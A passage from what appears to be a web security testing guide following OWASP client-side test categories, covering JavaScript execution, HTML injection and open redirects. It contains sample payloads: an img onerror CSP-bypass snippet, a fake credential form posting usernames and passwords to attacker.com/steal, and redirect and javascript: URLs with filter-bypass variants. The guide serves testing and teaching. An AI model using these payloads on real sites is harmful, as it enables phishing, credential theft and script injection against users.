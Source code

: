 ### 11.2 Test for JavaScript Execution (OTG-CLIENT-002)

#### JavaScript Security Testing
```javascript
// Content Security Policy bypass
<script src="https://trusted-cdn.com/jquery.js"></script>
<script>
// Use trusted library to execute malicious code
$('<img src=x onerror=alert("CSP Bypass")>').appendTo('body');
</script>

// postMessage vulnerabilities
window.addEventListener('message', function(e) {
    document.getElementById('target').innerHTML = e.data; // Vulnerable
});
```

### 11.3 Test for HTML Injection (OTG-CLIENT-003)

#### HTML Injection Testing
```html
<!-- Basic HTML injection -->
<h1>Injected Heading</h1>
<iframe src="https://attacker.com"></iframe>

<!-- Form injection -->
<form action="https://attacker.com/steal" method="POST">
<input name="username" placeholder="Re-enter username">
<input type="password" name="password" placeholder="Re-enter password">
<input type="submit" value="Verify">
</form>
```

### 11.4 Test for Client-side URL Redirect (OTG-CLIENT-004)

#### Open Redirect Testing
```bash
# URL parameter manipulation
https://target.com/redirect?url=https://attacker.com
https://target.com/redirect?next=//attacker.com
https://target.com/redirect?return_to=javascript:alert('XSS')

# Bypass filter techniques
https://target.com/redirect?url=https://target.com@attacker.com
https://target.com/redirect?url=https://target.com.attacker.com
```

## 12. API Security Testing

### 12.1 REST API Security Testing
